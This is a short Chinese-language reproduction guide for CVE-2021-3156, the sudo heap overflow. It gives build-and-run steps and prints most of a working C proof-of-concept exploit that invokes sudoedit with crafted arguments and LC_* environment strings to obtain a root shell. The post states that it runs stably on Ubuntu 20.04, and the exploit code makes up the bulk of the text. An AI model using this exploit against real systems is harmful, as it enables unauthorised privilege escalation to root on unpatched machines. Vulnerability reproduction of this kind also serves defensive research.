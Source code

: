 

目前exp在ubuntu 20.04环境下稳定运行，其他linux发行版未测试

环境已经上传至百度云盘中，请关注公众号并后台回复**sudo**获取下载链接。
虚拟机的用户名密码为 vagrant/unicodesec

## 复现过程

根目录中进入CVE-2021-3156文件夹中，执行make编译项目，随后执行`sudo-hax-me-a-sandwich `

过程如下图所示

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20210130220146.png)


exp代码如下
```
int main(int argc, char *argv[]) {
	// CTF quality exploit below.
	char *s_argv[]={
		"sudoedit",
		"-u", "root", "-s",
		"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\\",
		"\\",
		"BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB123456\\",
		NULL
	};

	char *s_envp[]={
		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
		"\\", "\\", "\\", "\\", "\\", "\\", "\\",  
		"X/P0P_SH3LLZ_", "\\",
		"LC_MESSAGES=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",
		"LC_ALL=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",
		"LC_CTYPE=C.UTF-8@AAAAAAAAAAAAAA",
		NULL
	};

	printf("**** CVE-2021-3156 PoC by blasty <peter@haxx.in>\n");

	execve(SUDOEDIT_PATH, s_argv, s_envp);

	return 0;
}
```

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//imgWeChat%20Image_20200612150038.png)
